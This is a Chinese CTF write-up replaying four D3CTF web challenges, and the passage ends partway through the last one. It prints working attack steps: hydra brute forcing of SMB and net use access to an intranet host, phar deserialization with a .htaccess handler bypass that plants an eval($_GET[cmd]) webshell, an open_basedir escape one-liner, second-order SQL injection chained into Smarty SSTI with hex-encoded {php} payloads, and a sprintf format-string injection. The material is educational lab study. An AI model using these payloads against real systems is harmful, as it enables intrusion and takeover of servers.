趁着题目环境还开着，补一下fakeonlinephp后面的内网渗透和其他三道Web的复现记录，确实学到不少，暴露很多问题。剩下其他的题只能等官方的题解和docker环境再补上了
复现主要参考Nu1L师傅们的wp：https://wx.zsxq.com/mweb/views/topicdetail/topicdetail.html?topic_id=241545841282511&group_id=824215518412&user_id=548142251252214
fakeonlinephp
这题前面就是利用webdav绕过allow_url_include的限制进行RFI，具体做法看我之前记录就行
主要后面进入内网172.19.97.8是直接上了别人的车，所以就再复现一下具体做法
主要是遗漏了题目的.git泄露，使用gitextract还原
1 | python git_extract.py http://3f2b604603.fakeonelinephp.d3ctf.io/.git/ |

得到两个提示文件和一个字典文件
hint2.txt：
1 | 这台💻跑着web服务，为了防止大黑阔用nginx 0day黑我电脑拿flag，👴把flag放到了内网的💻上(172.19.97.8 C:\Users\Administrator\Desktop\flag.txt |
显然需要我们爆破密码进入内网
而之前就通过扫描发现这台内网主机172.19.97.8是开放445端口SMB服务的，而且给了字典，所以我们直接上传hydra工具后进行爆破密码即可：
1 | hydra -l administrator -P pass.txt 172.19.97.8 smb |

得到登陆密码：administrator\eDHU27TlY6ugslV
然后登陆：
1 | net use \\172.19.97.8\ipc$ eDHU27TlY6ugslV /user:administrator |

最后读取flag：
1 | type \\172.19.97.8\c$\Users\Administrator\Desktop\flag.txt |

ezupload
源码：
1 |
|
这道题不得不说，真的是质量拉满，做的时候思路断了就畏惧了，这么有质量的题一点都没有用心做
先反思一下，自己当时做的时候卡的地方：
$this->checkext()过滤了php后缀，有想到能上传.htaccess文件，但是代码：
1 | if (preg_match("/\<\?|value|on|type|flag|auto|set|\\\\/i", $content)){ |
对文件内容做了过滤，限制了auto_prepend_file，php_value，<?，set等关键字，如果往htaccess中写入：
SetHandler application/x-httpd-php，会被直接过滤，所以这里的思路直接断了
- 发现了
file_get_contents($this->url,NULL,NULL,0,2048);代码中$this->url参数可控，可以触发phar反序列化，触发后，可以执行__destruct中的写文件：file_put_contents($this->filename.".txt", $string);，但是后缀名限制是.txt，加上第一步思路卡住，不知道怎么写htaccess。思路又断了 - 另外还有个
__toString，可以扫描目录，结合__destruct的$string = "your file in : ".$this->userdir;可以触发，也不知道怎么利用
然后开始复现，解决如上三点卡住的方法：
- 对.htaccess的内容的绕过方法：
1 | AddHandler php7-script .txt |
可以参考：https://www.freebuf.com/vuls/218495.html
- 既然解决htaccess的内容问题，那么反序列化的利用就很简洁明了了，通过
file_put_contents写入.txt后缀的文件，通过htaccess解析成php马 - 那么，做题的师傅应该都会有个疑问，既然我前面可以直接写马了，为什么题目还需要专门设置了一个显眼的魔术方法
__toString呢，这个方法作用无非就是扫目录，但是服务器有直接返回给我们upload/md5(ip)这样的相对路径。既然这样，我们可以通过反序列化来改变参数如下：
1 | $this->userdir = '<?php eval($_GET[cmd]);?>'; |
不就能直接写入到upload/4f105b2c0ec2da14aae9b130ee13f8e9/somnus.txt了吗，其实这样不行的，大家测一下就知道了。
这就不得不说，在之前我就发现到的一个细节问题：__destruct这个魔术方法，如果序列化对象的时候触发，当前的工作路径是根目录/
测试一下就知道了：


可以看到，不论是序列化，还是反序列化后触发__destruct，输入pwd当前目录都是根目录/
而这题，我们要触发的file_put_contents刚好就在__destruct方法中，所以，我们需要知道绝对路径，才能正确写入文件
我们可以注意到题目给的hint1：webroot changes every 10 mins
说明根目录是会变化的，也就是说，并不是直接的/var/www/html，所以才需要利用__toString来扫描目录
步骤1：通过反序列化爆当前绝对路径
首先扫描一下../目录
编写POC：
1 |
|
运行后生成phar文件，但是为了避免被内容检测，我们不如直接将phar文件进行gzip压缩，这样就肯定文件内容就不会黑名单中的关键字了
然后把压缩后的.phar.gz文件放到自己vps下，改名为任意的1，利用http://vps/1，来写入

接着触发phar反序列化

得到目录216cbd05fb1918ba，所以，当前的绝对就是/var/www/html/216cbd05fb1918ba
步骤2：通过反序列化写入带有马的.txt文件
POC：
1 |
|
同样gzip压缩后，写入


步骤3：写入.htaccess
通过data:image/png;base64,QWRkSGFuZGxlciBwaHA3LXNjcmlwdCAudHh0将base64编码的：
1 | AddHandler php7-script .txt |
传入

再次访问txt文件，成功getshell



禁用了命令执行，并限制了open_basedir：/var/www/html
绕过open_basedir即可：
1 | chdir('..');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/')); |

最后读取：F1aG_1s_H4r4

easyweb
一道控制器的审计题，关于控制器的学习可以参考：
https://codeigniter.org.cn/user_guide/general/controllers.html
首先从application/config/routes.php找到路由入口类：
1 | $route['default_controller'] = 'user/login'; |
说明入口是User::login()
来到路径application/controllers/User.php

另外还有一个注册功能

两个功能对username都有转义处理，具体实现可以自己测试，在protect_identifiers这个函数中

既然注册和登陆都对用户名有转义处理，那就只能考虑二次注入，登陆来到User::index()

首先get_view方法根据session中的参数userId对应的用户名进行查询处理，那么该处很可能就存在二次注入
跟进该方法：

发现用户名username根据userId查询出来后，首先经过sql_safe的黑名单过滤，检测到将整串username置空，然后经过safe_render去除{}后查询，最后将查询的结果返回通过Smarty渲染模板
因为是先检测黑名单，再把{}替换为空，那么我们就可以通过关键字中加入{}来绕过黑名单检测进行二次注入
注册用户名：
1 | somnus' u{nion s{elect 1# |
然后登陆，来到user/index触发get_view函数查询

成功注入，但是因为过滤了单个字符(和)，我们无法执行任何函数。但是因为是Smarty渲染：$this->ci_smarty->display($prouserView);，所以很可能存在Smarty SSTI
参考：Smarty SSTI
首先验证SSTI是否存在，通过注入查询25，但是因为会把{}替换为空，所以可以采用Hex编码来绕过：
1 | somnus' u{nion s{elect 0x7b7b352a357d7d# //{{5*5}} |
登陆：

成功执行5*5，说明存在SSTI，那么继续，注Smarty版本试试：
1 | somnus' u{nion s{elect 0x7b7b24736d617274792e76657273696f6e7d7d# //{{$smarty.version}} |

然后就尝试执行命令：Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令
1 | somnus' u{nion s{elect 0x7b7b7068707d7d706870696e666f28293b7b7b2f7068707d7d# //{{php}}phpinfo();{{/php}} |

成功执行phpinfo，最后写入一句话
1 | somnus' u{nion s{elect 0x7b7b7068707d7d6576616c28245f4745545b636d645d293b7b7b2f7068707d7d# //{{php}}eval($_GET[cmd]);{{/php}} |

getflag，不过看flag内容应该是个非预期解
Showhub
代码审计
源码比easyweb少挺多的，重点审计Models目录下的Model.php和User.php即可
首先看看User::register()注册功能：

password显然是经过sha256加密，不可控，然后初始化用户名密码后调用父类Model::save()

然后构造baseSql查询语句：
1 | INSERT INTO `$this->tbname`(%s) VALUE(%s) |
然后调用Model::prepareInsert()，跟进

这里字段值进行addslashes的转义处理，看似无法注入
但是仔细观察可以发现，这里如果传入的args，即包含了用户名和密码字段参数，因为参数数量大于1，所以对baseSql查询语句进行sprintf的格式化字符串替换。因为用户名字段在前面，所以当进行密码字段替换，即第二次替换时，就存在格式化字符串漏洞
例如，我们替换的用户名字段值为admin%1$'，那么经过第一次替换后的baseSql就为：
1 | INSERT INTO `users`(`username`,%s) VALUE('admin%1$\'',%s) |
然后第二次替换后，由于%1$\匹配不到字符，所以被替换为空，后面的单引号逃逸，baseSql就变成了：
1 | INSERT INTO `users`(`username`,`password`) VALUE('admin'','123') |
从而造成注入
另外要注意的是，这里注册虽然没有进行检查用户名是否存在的操作，但是测试是不能注册相同的用户名，猜测可能是数据库的用户名字段具有UNIQUE属性，不允许重复。然后注册时，传入的id字段默认都是为null的
然后跟进到save方法后

这串条件，因为id默认为null，应该都是不会执行的，就没看了
所以baseSql语句中的插入的字段应该是username和password
插入后

根据上一次插入的id，猜测数据库中的id字段应该具有auto increment属性，自动增加，所以根据上一次插入的id调用Model::findOne()方法，即执行一次登陆操作，如果有查询结果，即登陆成功
注入修改管理员密码
